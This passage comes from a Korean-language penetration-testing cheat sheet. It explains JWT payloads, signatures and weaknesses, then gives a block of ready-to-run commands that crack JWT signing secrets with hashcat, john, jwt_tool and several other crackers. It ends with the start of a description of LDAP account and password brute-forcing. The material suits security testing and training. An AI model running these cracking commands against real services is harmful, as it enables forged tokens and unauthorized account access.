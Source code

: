 #### 페이로드 (Payload)

페이로드는 클레임(claim)이라고도 불리는 정보를 포함합니다. 클레임은 토큰에 대한 메타데이터를 제공하며, 등록된 클레임, 공개 클레임, 비공개 클레임으로 구분됩니다.

#### 서명 (Signature)

서명은 헤더와 페이로드를 기반으로 생성되며, 서버에서만 알고 있는 비밀 키를 사용하여 생성됩니다. 이 서명은 토큰이 변조되지 않았음을 검증하는 데 사용됩니다.

JWT는 토큰 자체에 정보를 포함하고 있으므로 서버에서 상태를 유지할 필요가 없습니다. 이는 확장성과 분산 시스템에서의 사용에 매우 유용합니다.

#### JWT의 취약점

JWT의 주요 취약점 중 하나는 암호화되지 않은 토큰의 경우 토큰을 조작할 수 있다는 점입니다. 따라서 토큰을 안전하게 전송하려면 HTTPS와 같은 보안 프로토콜을 사용해야 합니다. 또한, 서버에서 토큰을 검증할 때 충분한 보안 검사를 수행해야 합니다.
```bash
#hashcat
hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt

#https://github.com/Sjord/jwtcrack
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#John
john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256

#https://github.com/ticarpi/jwt_tool
python3 jwt_tool.py -d wordlists.txt <JWT token>

#https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8

#https://github.com/mazen160/jwt-pwn
python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt

#https://github.com/lmammino/jwt-cracker
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
```
### LDAP

LDAP은 경량 디렉터리 액세스 프로토콜(Lightweight Directory Access Protocol)의 약자입니다. 이 프로토콜은 디렉터리 서비스에 액세스하기 위해 사용되며, 주로 사용자 인증 및 권한 부여와 같은 작업에 활용됩니다.

LDAP을 사용하여 브루트 포스 공격을 수행할 때, 다음과 같은 방법을 사용할 수 있습니다:

1. 사용자 계정 브루트 포스: LDAP 서버에 대해 알려진 사용자 계정 목록을 사용하여 로그인을 시도합니다. 이를 통해 알려진 사용자 계정의 암호를 추측하고 액세스를 시도할 수 있습니다.

2. 암호 브루트 포스: 알려진 사용자 계정에 대해 가능한 모든 암호 조합을 시도하여 액세스를 시도합니다. 이를 통해 암호를 추측하고 액세스를 시도할 수 있습니다.

LDAP 브루트 포스 공격을 수행할 때는 다음과 같은 주의 사항을 염두에 두어야 합니다:
